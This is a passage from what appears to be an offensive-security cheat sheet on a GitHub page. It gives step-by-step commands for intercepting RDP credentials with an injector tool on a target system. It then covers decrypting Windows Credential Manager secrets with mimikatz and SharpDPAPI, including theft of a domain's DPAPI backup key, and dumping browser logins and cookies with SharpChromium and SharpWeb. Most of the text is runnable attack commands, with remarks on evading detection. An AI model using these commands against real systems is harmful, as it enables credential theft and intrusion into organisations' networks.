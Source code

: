             }
        }
    }
    ```
- 4\. Compile the RemoteViewInjector\.cs file: ```csc .\RemoteViewingSC.cs```
- 5\. Execute RemoteViewInjector\.exe tool on the target system \(by default the result is stored in "\_wasRDP36D7\.tmp" located in the "C:\\Users\\<target user>\\AppData\\Local\\Temp\\" folder\): ```.\RemoteViewInjector.exe```
- 6\. Decrypt and show the stored \(intercepted\) RDP creds \(run in same folder as RemoteViewInjector\.exe\): ```.\Clairvoyant.exe```
- 7\. \(optional\) If you want to repeat the process, first delete the "\_wasRDP36D7\.tmp" file stored in "C:\\Users\\<user>\\AppData\\Local\\Temp\\"\.

---
### __Search for stored secrets on the system:__
#### _Credential Manager password harvesting \(DPAPI\):_
- Targeting current user account \(doesn't require elevated privs\):
	- 1\. Check if there are blobs present on disk: ```ls C:\Users\<username>\AppData\Local\Microsoft\Credentials (-Force)```
	- 2\. \(optional\) Check what they are used for \(e\.g target=TERMSRV means RDP\): ```vaultcmd /listcreds:"Windows Credentials" /all```
	- 3\. Check which 'guidMasterKey' value is assocatiated with the blob: ```mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\<blob value string>```
	- 4\. List Master Key information and note the full path to the needed guidMasterKey: ```ls C:\Users\<username>\AppData\Roaming\Microsoft\Protect\S-1-5-21-*```
	- 5\. Decrypt the MasterKey and copy the 'key' value: 
		- Via DC RPC function: the "legitimate" RPC service, exposed on the DC, is used for better OPSEC: ```mimikatz dpapi::masterkey /in:C:\Users\<username>\AppData\Roaming\Microsoft\Protect\S-1-5-21-<SID>\<guidMasterKey value> /rpc```
		- Via credentials: ```mimikatz dpapi::masterkey /in:<MASTERKEY_LOCATON> /sid:<USER_SID> /password:<USER_PLAINTEXT> /protected```
	- 6\. Use the 'key' value to decrypt the blob: ```mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\<blob value string> /masterkey:<key value>```
- Targeting multiple user accounts and retrieve all stored user credentials from the Credential Manager on the current system \(requires DA privileges; access to DC backup; or DA Read\-Only access to DC\):
	- Cached MasterKey: triage all reachable user masterkeys and decrypt them if MasterKey is cached \([SharpDPAPI](https://github.com/GhostPack/SharpDPAPI)\): ```SharpDPAPI.exe triage```
	- DPAPI Backup key:  
		- 1\. Retrieve the domain controller's DPAPI backup key which can be used to decrypt master key blobs for any user in the domain \(the key never changes\) \(SharpDPAPI\): ```SharpDPAPI backupkey (/server:<FQDN DC>) /file:C:\<path to>\key.pvk```
		- 2\. Using a domain DPAPI backup key to first decrypt any discoverable masterkeys and then search for Credential files and decrypt them \(SharpDPAPI\): ```SharpDPAPI credentials /pvk:C:\<path to>\key.pvk```

#### _Browser login and cookie harvesting \(DPAPI\):_
>Some websites have set restriction on the reuse of cookies like: single cookie use; restricted by IP, device or some sort of fingerprint\. Therefore, it is not always possible to leverage an obtained cookie.
- Targeting current user account \(doesn't require elevated privs\):
	- Stored Credentials:
		- 1\. Check if the 'Login Data' file has a value higher than 38k\-42k, which is a good indicator that credentials are stored: ```ls C:\Users\<username>\AppData\Local\Google\Chrome\User Data\Default```
		- 2\. Decrypt and dump the credentials:
			- Chrome/Edge \([SharpChromium](https://github.com/djhohnstein/SharpChromium)\): ```SharpChromium.exe logins```
			- Chrome/Firefox/IE/Edge \([SharpWeb](https://github.com/djhohnstein/SharpWeb)\): ```sharpweb.exe all```
	- Stored Cookies & Browser history:
		- 1\. Retrieve user's history with a count of each time the URL was visited \(SharpChromium]\): ```SharpChromium.exe history```